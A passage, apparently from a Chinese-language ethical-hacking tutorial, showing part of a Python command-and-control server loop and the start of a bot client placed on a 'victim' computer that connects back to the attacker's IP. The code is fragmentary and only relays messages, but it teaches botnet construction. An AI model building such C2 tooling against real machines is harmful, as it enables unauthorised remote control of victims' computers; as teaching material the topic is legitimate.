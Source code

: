 run_bot = True

while run_bot:

msg = input("[+] 输入消息：")

msg = msg.encode()

bot.send(msg)

if msg.decode() == "exit":

run_bot = False

status = bot.recv(1024)

if status == "disconnected".encode():

bot.close()

clients.remove(bot)

print("数据已发送")

else:

print("[+] 没有客户端连接")

ans = input("[+] 你想退出吗？按[y/n] ")

if ans == "y":

run_cnc = False

else:

run_cnc = True

现在我们已经为命令与控制中心定义了一个基本结构。完整的机器人代码可以在以下链接找到：

[`github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example13-CNC/CnC.py`](https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example13-CNC/CnC.py)

接下来，我们将定义我们的机器人逻辑。

进入受害者计算机并创建一个名为`bot1.py`的新文件。我们将创建一个套接字对象，并尝试使用黑客的 IP 与黑客进行通信。这个步骤类似于我们之前开发的恶意软件程序：

import socket

if __name__ == "__main__":

print("[+] 正在连接服务器")

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("192.168.0.11", 8085))

接下来，我们将为`run_bot`创建一个循环，尝试接收 CNC 发送的消息。一旦消息接收，我们可以在这里定义自己的逻辑。这里我们仅打印消息，但你可以根据需要添加功能。一旦 CNC 发送退出消息，我们可以简单地将客户端机器人从服务器中断开。代码如下：

run_bot = True

while run_bot:

communicate_bot = True
